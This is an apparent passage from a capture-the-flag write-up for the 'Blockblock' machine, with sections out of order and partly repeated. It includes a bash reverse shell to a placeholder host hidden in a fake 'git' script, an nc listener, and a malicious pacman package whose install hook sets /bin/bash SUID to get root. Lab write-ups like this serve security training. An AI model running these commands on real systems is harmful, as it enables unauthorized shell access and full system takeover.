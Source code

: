 ```bash
sudo pacman -U *.zst --noconfirm

After installation, bash becomes SUID-enabled. We spawn a root shell:
bash -p
Conclusion

Blockblock tests a wide range of skills, from XSS exploitation and token manipulation to blockchain API interaction and privilege escalation using creative techniques. The journey through this machine highlights the importance of thorough enumeration and exploiting vulnerabilities at every level.

Happy hacking!


mkdir -p /tmp/rev
cat > /tmp/rev/git << EOF
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP>/<PORT> 0>&1
EOF
chmod +x /tmp/rev/git
```

Setting up a listener:

```bash
nc -nlvp <PORT>
```

Executing the command provides a shell as `paul`.

---

## Privilege Escalation to Root

### Abusing Package Installation

We create a malicious Arch Linux package to modify bash permissions:

```bash
cd /dev/shm
cat > PKGBUILD << EOF
pkgname=exp
pkgver=1.0
pkgrel=1
arch=('any')
install=exp.install
EOF

echo "post_install() { chmod 4777 /bin/bash; }" > exp.install
makepkg -s
sudo pacman -U *.zst --noconfirm
```

After installation, `bash` becomes SUID-enabled. We spawn a root shell:
